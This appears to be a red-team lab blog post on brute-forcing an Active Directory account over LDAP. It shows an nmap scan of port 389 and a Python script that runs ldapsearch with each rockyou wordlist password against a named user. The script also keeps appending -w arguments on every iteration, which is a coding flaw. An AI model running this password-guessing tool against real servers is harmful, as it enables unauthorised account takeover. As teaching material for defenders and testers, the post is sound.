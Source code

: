 ```yaml
---
title: Brute Forcing Active Directory LDAP using a Custom Python Script
date: 2025-01-26
draft: false
author: Alex Jenkins
---
```



# Red Team
## Introduction
In this article we will perform a password guessing attack from the perspective of the adversary. The process begins by using **nmap** to scan the host and determine if the Lightweight Directory Access Protocol (LDAP) port is open. Once the LDAP service has been confirmed, a custom python script will be used to brute force a user's password with **ldapsearch**.

-  what is LDAP bind (related to ldapsearch)
- developing a python script

## Assumptions
For this red team exercise, it is assumed that the adversary has performed the initial reconnaissance stage. During that engagement they would have acquired an Active Directory (AD) username, discovered a domain, and located the host's IP address. The next logical step for the adversary is to identify a network entry point.

## LDAP Discovery
As discussed, the tool used to discover the LDAP port status will be nmap. Efforts have been made to ensure the nmap scan does not create too much noise - only scanning the relevant port and address, and revoking ICMP scans. A full example of the scan used during this engagement, including my specific output, and a description of each command is shown below:


**Input**

```
nmap -sT -Pn -p389 192.168.1.138
```

**Output**

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 20:00 GMT
Nmap scan report for 192.168.1.138
Host is up (0.00049s latency).

PORT    STATE SERVICE
389/tcp open  ldap

Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

**Description**

| Flag | Description                                                                                                                                                                        |
| ---- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| sT   | Performs a full three-way TCP handshake, mimicking the normal connection flow of applications and hopefully blending in with legitimate traffic.                                   |
| Pn   | Based on the assumptions, host discover is not required and ICMP requests can be deactivated. Ping scans are generally detected and blocked by firewalls.                          |
| p389 | Only scan the port of interest. Doing so creates less noise on the host than scanning the top 1,000 most common ports, with the additional benefit of being a faster scan overall. |
## Brute Force

```python
import subprocess

password_list = '/usr/share/wordlists/rockyou.txt'
username = 'scarab'
server = '192.168.1.138'

command = ['ldapsearch', 
           '-H', f'ldap://{server}',
           '-D', f'{username}',
           '-b', 'DC=backyard,DC=local',
           ]

with open(password_list) as wordlist:
    
    for password in wordlist:
    
        password = password.strip() # remove whitespace and newlines
        print(f'Trying {password}', end='\r')
        
        command += ['-w', password]
        output = subprocess.run(command, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        
        if output.returncode == 0: # LDAP auth success
            print(f'Matched {password}')
            break
```

Essentially all this python script does is use subprocess to run the ldapsearch tool repeatedly until it finds a password match. It's not super intelligent, if it doesn't find a match it won't tell you - we could modify it to do that but for this exercise this is fine. The script checks for the error code 0, which indicates a successful authentication and prints the matched password. The output is suppressed, but can be added back in by modifying the subprocess.run() function if required.

Now for the command. This is the command that's being run (with all the variables replaced with real values):

``` bash
ldapsearch -H "ldap://192.168.1.138" -D "scarab" -b "DC=backyard,DC=local" -w "abc123"
```

ldapsearch is used to query an LDAP server for directory information. In this case it's being used to validate credentials because any failed logins will return the following error message:

```
ldap_bind: Invalid credentials (49)
```

The command does the following:

| Flag | Description                                                                                                                                            |
| ---- | ------------------------------------------------------------------------------------------------------------------------------------------------------ |
| -H   | Used to specify the LDAP server to connect with. This must be prefixed with *ldap://*, then followed with an IP address or domain name.                |
| -D   | The Distinguished Name (DN) of the user i.e. the username.                                                                                             |
| -w   | The password used to authenticate. Populated using a word-list in the for loop.                                                                        |
| -b   | The **base** Domain Name (DN) from which to begin the search. In this case I've chosen the root domain. Omitting this will result in "no such object". |

And that's it. The weak password policy and lack of lockout mechanisms made this a trivial exercise, allowing limitless attempts to authenticate into the user despite an array of failed logins.

I hope you enjoyed this example of password guessing using LDAP in Active Directory. The purpose of this was to be an introductory exercise using readily available services upon setup of an AD server. This is a trivial example of password guessing, but I feel it has effectively showcased this MITRE technique.

This was new to me and I had fun building the python script and learning a little bit about LDAP and how the ldapsearch tool works. 